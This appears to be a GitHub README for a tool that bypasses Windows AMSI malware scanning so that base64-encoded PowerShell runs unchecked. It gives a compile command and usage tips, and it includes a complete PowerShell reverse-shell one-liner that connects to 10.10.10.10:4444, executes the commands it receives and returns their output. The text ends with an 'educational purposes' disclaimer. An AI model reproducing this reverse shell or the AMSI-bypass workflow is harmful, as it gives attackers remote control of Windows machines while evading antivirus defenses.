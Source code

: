 # AmsiBypass-and-CommandExecution

## Demo Video

 
https://user-images.githubusercontent.com/89106058/232936480-b0e4e0d8-d435-449c-93c7-a3e8a150027e.mp4


## Compilation command

```powershell
g++ -m64 -o happy_hacking.exe -static main.cpp
```

## Important

- You must check that the commands contained in base64 belong exclusively to PowerShell to ensure their correct execution.
- You should always try to use Invoke-Expression to make the command run in the patched powershell to avoid creating new powershell instances that are not patched.
- It only works for Windows 10 for now.

An example of a one-liner that contains only PowerShell commands and can be base64 encoded:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();
```

Finally, I am not responsible for what you do with the code, this is purely for educational purposes.
